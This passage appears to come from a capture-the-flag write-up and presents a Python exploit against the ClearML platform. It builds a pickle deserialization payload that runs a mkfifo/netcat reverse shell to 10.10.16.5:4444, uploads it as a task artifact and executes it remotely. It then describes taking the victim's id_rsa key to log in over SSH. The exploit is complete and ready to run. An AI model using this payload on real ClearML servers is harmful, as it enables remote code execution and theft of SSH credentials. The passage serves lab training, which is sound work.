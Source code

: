 From this  script and from the link we provided earlier explaining the vulnerability, we can craft a python exploit to exploit the vulnerability.   

```python
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 4444 >/tmp/f"
        return (os.system, (cmd,))

command = RunCommand()

task = Task.init(project_name="Black Swan",
                 task_name="xtromera-task",
                 tags=["review"],
                 task_type=Task.TaskTypes.data_processing,
                 output_uri=True)

task.upload_artifact(name="axura_artifact",
                     artifact_object=command,
                     retries=2,
                     wait_on_upload=True)

task.execute_remotely(queue_name='default')
```

We get a connection to our `listener` and we are connected as the user `jippity`.  

<br/> 
<img src="/img/blurry_screenshots/Pasted image 20241105202501.png" alt="1" style="width:700px; height:auto;">
<br/>

We can upgrade the shell by copying the `id_rsa` file to our machine and connect by `ssh`.  

<br/> 